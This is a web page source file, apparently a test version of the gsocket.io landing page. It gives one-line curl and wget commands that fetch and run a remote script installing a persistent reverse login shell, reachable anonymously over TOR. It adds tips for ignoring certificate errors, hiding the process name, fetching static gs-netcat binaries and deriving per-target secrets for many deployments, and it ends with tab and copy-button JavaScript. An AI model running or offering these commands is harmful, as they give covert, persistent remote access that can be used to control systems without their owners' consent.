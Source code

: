 ```yaml
---
layout: default
---
```


<h2 align="center">Index -- Test version</h2>

<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these two commands to _install_, _uninstall_, and _access_:

<!-- This is obviously the tabs wrapper -->
<div class="tabs-wrapper">
    <!-- And here the tabs container -->
    <div class="tabs">
        <!-- This is the first tab -->
        <div class="tab">
            <!-- "checked" means active tab -->
            <input type="radio" name="css-tabs-init" id="curl-init" class="tab-switch" checked>
            <!-- This is the tab selector -->
            <label for="curl-init" class="tab-label">Curl</label>
            <!-- This is the tab content container -->
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
<!--
This is how to reproduce the syntax highlighting with "rouge"
You must respect this weird placement to avoid extra rendered space
See here for more details:
https://jekyllrb.com/docs/liquid/tags/#code-snippet-highlighting
-->
{% highlight shell %}
bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <!-- This is the second tab -->
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="wget-init" class="tab-switch">
            <label for="wget-init" class="tab-label">Wget</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

<div class="tabs-wrapper">
    <div class="tabs" style="height: 25.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="curl-tricks" class="tab-switch" checked>
            <label for="curl-tricks" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(curl -fsSLk gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
curl -fsSL http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="wget-tricks" class="tab-switch">
            <label for="wget-tricks" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:

<div class="tabs-wrapper">
    <div class="tabs" style="height: 12.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="curl-manual" class="tab-switch" checked>
            <label for="curl-manual" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="wget-manual" class="tab-switch">
            <label for="wget-manual" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
wget --no-check-certificate -qO- https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

<div class="tabs-wrapper">
    <div class="tabs" style="height: 35.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="curl-advanced" class="tab-switch" checked>
            <label for="curl-advanced" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="wget-advanced" class="tab-switch">
            <label for="wget-advanced" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>

<!-- Tooltips test -->
<!-- <button class="copy-button test"><img width="16" src="/assets/icons/copy_16.svg" alt="Copy to clipboard" title="Copy to clipboard"></button> -->

<script>
// Standalone Methods
const thc = {
    verbose: false,
    showTooltip: (element, text, direction) => {
        // Target element
        const el = element.children[0];

        // Tooltip code
        const tooltipHTML = `<div class="tooltip"><span class="tooltiptext ${direction}">${text}</span></div>`;

        // Debug
        if (thc.verbose === true) {
            console.log('Called from element:', element);
            console.log('Element children:', element.children);
            console.log('Target element:', el);
        }

        // Add tooltip element
        el.insertAdjacentHTML('afterend', tooltipHTML);

        // Lookup created tooltip element
        const tooltipContainer = document.querySelector('.tooltip');
        const tooltipContent = tooltipContainer.children[0];

        // Debug
        if (thc.verbose === true) {
            console.log('Related tooltip:', tooltipContainer);
            console.log('Tooltip content:', tooltipContainer.children[0]);
        }

        // Reveal tooltip
        tooltipContent.style.opacity = 1;

        // Attach mouse event just once
        el.addEventListener('mouseleave', (event) => {
            // Target element
            const el = event.target;

            // Debug
            if (thc.verbose === true) {
                console.log('Mouse [mouseleave] event received:', event);
                console.log('Target element:', el);
            }

            // Lookup created tooltip element
            const tooltipContainer = document.querySelector('.tooltip');
            const tooltipContent = tooltipContainer.children[0];

            // Debug
            if (thc.verbose === true) {
                console.log('Related tooltip:', tooltipContainer);
                console.log('Tooltip content:', tooltipContainer.children[0]);
            }

            // Hide tooltip
            tooltipContent.style.opacity = 0;

            // Remove tooltip with a delay
            const delayedRemoval = setTimeout(() => {
                document.querySelectorAll('.tooltip').forEach((el) => {
                    console.log('Removing tooltip.', el);
                    el.remove();
                    clearTimeout(delayedRemoval);
                });
            }, 1000);
        }, { once: true });
    }
}
</script>

<!-- Adding some 'magic' on tabs ;) -->
<script>
(() => {
    const tabsDebug = false;
    const tabsSelector = 'input.tab-switch';
    document.querySelectorAll(tabsSelector).forEach((el) => {
        const id = el.id;
        const type = id.split('-')[0];
        if (tabsDebug === true) {
            console.log('[change] event listener attached on', id, '- type:', type);
        }
        el.addEventListener('change', (event) => {
            if (tabsDebug === true) {
                console.log('Change event triggered.', event);
            }
            let targetTabs = String(event.target.id).includes(type) ? type : 'undefined';
            if (tabsDebug === true) {
                console.log(`Should select other [${targetTabs}] tabs.`);
            }
            document.querySelectorAll(tabsSelector).forEach((target) => {
                if (String(target.id).includes(targetTabs) && !target.checked) {
                    target.checked = true;
                }
            });
        });
    });
})();
</script>

<!-- Adding some other 'magic' on code snippets :P -->
<!--
Done: Add CSS tooltips
From: https://www.w3schools.com/css/css_tooltip.asp
Comment: Yes, I'm lazy and don't remind everything. Don't blame me.
Goal: Keep things as light as possible.
Reached: Replaced 'showTooltip()' method from GitHub Primer by custom one.
Author: Doctor Who (Jiab77)
-->
<script>
(() => {
    // Copy icon from GitHub Primer
    // https://primer.style/design/foundations/icons
    
    const snippets = document.querySelectorAll('figure.highlight pre');
    snippets.forEach((snippet) => {
        console.log('Connected on element:', snippet);
        snippet.firstChild.insertAdjacentHTML(
            'beforebegin',
            '<button class="copy-button" data-clipboard-snippet><img width="16" src="/assets/icons/copy_16.svg" alt="Copy to clipboard" title="Copy to clipboard"></button>'
        );
    });
    
    const clipboardSnippets = new ClipboardJS('[data-clipboard-snippet]', {
        target: (trigger) => {
            return trigger.nextElementSibling; // 'nextElementSibling' is used because the button is placed before the other elements
        }
    });
    
    clipboardSnippets.on('success', function(e){
        e.clearSelection();
        console.log('Received [success] event.', e);
        console.log('Action:', e.action);
        console.log('Text:', e.text);
        console.log('Trigger:', e.trigger);
        thc.showTooltip(e.trigger,'Copied!', 'right);
    });

    clipboardSnippets.on('error', function(e){
        console.log('Received [error] event.', e);
        console.error('Action:', e.action);
        console.error('Trigger:', e.trigger);
        thc.showTooltip(e.trigger,fallbackMessage(e.action), 'right);
    });
})();
</script>